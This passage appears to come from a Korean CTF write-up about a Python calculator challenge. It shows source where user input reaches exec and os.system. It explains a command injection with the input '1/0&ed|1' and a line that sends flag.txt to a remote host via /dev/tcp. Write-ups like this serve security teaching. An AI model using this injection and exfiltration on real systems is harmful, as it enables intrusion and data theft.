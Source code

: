```py
    script = 'val = nums[0]\n'
    for i in range(len(opers)):
        script+=f'val {opers[i]}= {nums[i+1]}\n'
    script += 'print(f\'{expr}=%x\'%val)'
    exec(script)
```

```py
def raise_error(e):
    if type(e) == KeyboardInterrupt:
        print("\nif you want to quit this calculator, type 'exit'\n")
    else:
        if type(e) == EOFError:
            e = 'EOFError'
            error_msg = 'Please do not press CTRL+D'
        else:
            error_msg = f'{expr} is invalid expression!'
        tmp_err_logs = '.'+binascii.hexlify(os.urandom(8)).decode()
        cmd = f'''
            echo "*** {str(e)} ***" > {tmp_err_logs}
            echo {error_msg} >> {tmp_err_logs}
            cat {tmp_err_logs}
            rm {tmp_err_logs}
        '''
        os.system(cmd)
    return
```

exec로는 필터링으로 인해 사실 할 수 있는 게 많이 없고, 결국에는 os.system을 통해 command를 실행시켜야 한다.

그러면, 우리가 할 수 있는 건 raise를 발생시켜서 에러 로그를 저장했다가 출력해주는 곳에서 command를 실행시키는 것이 가장 합리적이다.

이는 division by zero exception을 통해 raise 시킬 수 있고, `1/0&ed|1`라는 입력을 통해 division by zero와 동시에 command injection을 발생시킬 수 있다.

그러면 ed라는 command가 실행되는데, 이는 vim과 똑같이 command를 실행시킬 수 있다.

```bash
!/bin/bash
cat flag.txt > /dev/tcp/{server}/{port}
```

그럼 위와 같은 형태로 데이터를 tcp로 server에 보내서 flag를 가져오는 command를 실행시킬 수 있다.


### 블로그 포스트 작성자의 추가적인 코멘트

파이썬의 Exception handling을 이용한 command injection 문제입니다. whitelist 에서 command injection에 주로 사용되는 `&`, `|` 문자를 허용한다는 점과, Dockerfile에서 `ed` 명령어를 설치하는 두 개의 단서를 찾는다면 쉽게 풀 수 있는 문제였습니다. 

이러한 command injection bypass 유형의 문제는 [hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection) 사이트에 잘 정리되어있으니 살펴보시는 것을 추천드립니다.


---

## safe_calculator
